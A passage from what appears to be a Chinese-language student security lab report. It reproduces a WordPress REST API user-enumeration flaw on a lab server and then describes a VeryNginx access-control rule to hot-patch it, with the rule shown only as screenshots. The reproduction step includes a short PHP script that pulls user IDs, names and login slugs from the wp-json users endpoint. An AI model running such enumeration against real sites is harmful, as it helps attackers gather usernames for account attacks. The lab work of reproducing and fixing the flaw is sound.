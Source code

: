 3.5.1 重现漏洞

```bash
#安装依赖包
sudo apt install php

#创建漏洞文件
sudo vim err.php

#写入 php 脚本文件
#!usr/bin/php
<?php

header ('Content-type: text/html; charset=UTF-8');

$url= "http://wp.sec.cuc.edu.cn//";
$payload="wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
	echo "*-----------------------------*\n";
foreach($json as $users){
	echo "[*] ID :  |" .$users['id']     ."|\n";
	echo "[*] Name: |" .$users['name']   ."|\n";
	echo "[*] User :|" .$users['slug']   ."|\n";
	echo "\n";
}echo "*-----------------------------*";} 
else{echo "[*] No user";}


?>
            
#执行脚本
sudo php err.php
```

这里本来应该是返回一个 json 文件，但我这里不知为什么没有返回。



3.5.2 定制 VeryNginx 的访问控制策略规则，热修复漏洞

添加 matcher 匹配规则

![err_protect](img/err_protect.png)

在 Custom Action 中添加 Filter 过滤条件

![err_prt_filter](img/err_prt_filter.png)
